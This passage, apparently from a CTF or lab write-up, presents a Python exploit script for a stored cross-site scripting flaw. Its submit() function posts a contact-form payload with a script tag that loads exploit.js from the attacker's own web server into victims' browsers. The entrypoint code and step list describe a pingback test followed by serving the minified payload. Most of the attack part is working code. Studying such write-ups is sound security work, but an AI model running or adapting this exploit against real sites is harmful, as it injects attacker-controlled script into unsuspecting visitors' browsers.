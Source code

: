 The `submit()` function could reliably make a POST to the server that would exploit the XSS vulnerability and trigger the victim's browser to run our script when they next visited the page. Ideally the function should check that the request was received by `myRequestHandler`, but this was sufficient to ensure repeated success.

```python
def submit(callback_path="exploit.js"):
    """
    Send the HTTP POST request to the server, which should trigger it running some JavaScript that
    we will need to serve back.
    """
    print("[+] Making POST request...")
    url = "http://" + TARGET + "/contact"
    headers = {}
    data = {"name": "hacked",
            "subject": "hacked",
            "content": f"<script src=\"http://{WEB_SERVER_HOST}:{WEB_SERVER_PORT}/{callback_path}\"></script>"}

    response = requests.post(url, headers=headers, data=data)

    if response.status_code == 200:
        print("[+] POST request successful!")
        return True

    return False
```

This is the entrypoint to the program:
```python
if __name__ == "__main__":
    web_server = ThreadedWebServer()

    # First, demonstrate JS code execution on the remote.
    if submit("test.js"):
        pass
    else:
        print("[!] Something went wrong, didn't get a HTTP 200 response")
        sys.exit(1)

    print('[ ] Now trying to exploit for reals...')

    if submit():
        print("[+] Exploit Done!")
        web_server.stop()

    else:
        print("[!] Exploitation failed, did not get HTTP 200 response!")
        sys.exit(1)
```

So, running the Python exploit script does the following steps:

1. Creates a small web server, listening for two incoming requests and ignoring anything that doesn't match.
1. Sends a HTTP request to the target that will trigger the XSS. The JavaScript payload sent should have the browser connect back to our Python webserver and request `/pingback`. This does nothing more than let us know that we have successful JavaScript code execution inside the victim's visiting browser.
1. Sends a second HTTP request to the target that will again trigger the XSS, and request the contents of `/exploit.js`.
1. Reads our nice verbose `exploit.js` file off disk, and reduce it by stripping out comments and extraneous whitespace.
1. When the incoming request comes in, serve the minified content.
1. Shut down the web server.
